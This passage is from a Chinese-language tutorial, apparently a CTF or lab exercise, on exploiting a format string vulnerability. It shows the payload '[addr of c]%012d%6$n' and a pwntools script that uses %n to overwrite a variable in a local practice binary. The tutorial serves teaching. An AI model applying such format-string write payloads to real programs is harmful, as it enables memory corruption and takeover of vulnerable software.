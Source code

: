 ![Alt](img/格式化字符串漏洞25.png)

可以发现是printf的第七个参数即格式化字符串的第六个参数。

#### 进行覆盖

第 6 个参数处的值就是存储变量 c 的地址，我们便可以利用 %n 的特征来修改 c 的值。
`payload=[addr of c]%012d%6$n`
addr of c 的长度为 4，故而我们得再输入 12 个字符才可以达到 16 个字符，以便于来修改 c 的值为 16。(%n将输出字符的个数写入到对应的整型指针参数所指的变量，要使c==16,这里就需要16个字符)

```python
    from pwn import *
    def forc():
        sh = process('./overflow')
        c_addr = int(sh.recvuntil('\n', drop=True), 16)
        print hex(c_addr)
        payload = p32(c_addr) + '%012d' + '%6$n'
        # %012表示用0填充12个字符，32位程序下地址为4字节%d之后即为8个字符，所以%0kd,小于8时，c_addr处的值为0xc
        print payload
        #gdb.attach(sh)
        sh.sendline(payload)
        print sh.recv()
        sh.interactive()
    forc()
```

运行结果：

![Alt](img/格式化字符串漏洞26.png)
